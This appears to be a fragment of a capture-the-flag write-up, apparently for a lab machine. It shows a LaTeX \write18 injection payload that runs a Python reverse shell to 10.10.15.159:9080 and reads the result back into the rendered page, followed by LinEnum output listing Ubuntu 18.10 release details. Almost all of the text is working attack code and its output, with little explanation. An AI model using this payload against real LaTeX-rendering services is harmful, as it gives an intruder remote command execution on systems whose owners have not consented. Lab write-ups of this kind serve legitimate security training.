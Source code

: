 ```
content=\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.159",9080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > chickenp.sh|base64 > chickenp.sh}

\newread\file

\openin\file=chickenp.sh

\loop\unless\ifeof\file

\read\file to\fileline

\text{\fileline}

\repeat

\closein\file

Run1

&template=test3
```

![shell](shell.PNG)

LinEnum

```
[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.10
DISTRIB_CODENAME=cosmic
DISTRIB_DESCRIPTION="Ubuntu 18.10"
NAME="Ubuntu"
VERSION="18.10 (Cosmic Cuttlefish)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.10"
VERSION_ID="18.10"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=cosmic
UBUNTU_CODENAME=cosmic

```
